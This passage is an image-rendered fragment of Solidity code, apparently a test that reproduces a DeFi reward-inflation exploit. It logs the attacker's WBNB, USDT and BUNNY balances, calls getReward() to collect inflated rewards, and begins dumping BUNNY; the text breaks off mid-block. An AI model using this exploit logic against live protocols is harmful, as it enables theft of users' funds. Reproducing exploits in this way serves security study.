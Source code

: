 │             IERC20(WBNB).balanceOf(address(this)),                                                                                                                                                                                                    │
│             IERC20(WBNB).decimals()                                                                                                                                                                                                                   │
│         );                                                                                                                                                                                                                                            │
│         emit log_named_decimal_uint(                                                                                                                                                                                                                  │
│             "After dumping all WBNB, USDT balance of attacker:",                                                                                                                                                                                      │
│             IERC20(USDT).balanceOf(address(this)),                                                                                                                                                                                                    │
│             IERC20(USDT).decimals()                                                                                                                                                                                                                   │
│         );                                                                                                                                                                                                                                            │
│                                                                                                                                                                                                                                                       │
│         //Collect inflated rewards                                                                                                                                                                                                                    │
│         flip.getReward();                                                                                                                                                                                                                             │
│                                                                                                                                                                                                                                                       │
│         emit log_named_decimal_uint(                                                                                                                                                                                                                  │
│             "After collecting rewards, BUNNY balance of attacker:",                                                                                                                                                                                   │
│             IERC20(BUNNY).balanceOf(address(this)),                                                                                                                                                                                                   │
│             IERC20(BUNNY).decimals()                                                                                                                                                                                                                  │
│         );                                                                                                                                                                                                                                            │
│                                                                                                                                                                                                                                                       │
│         //Dump BUNNY                                                                                                                                                                                                                                  │
│         emit log_string("Dumping all BUNNY for WBNB on WBNB+BUNNY pool...");                                                                                                                                                                          │
│         {                                                                                                                                                                                                                                             │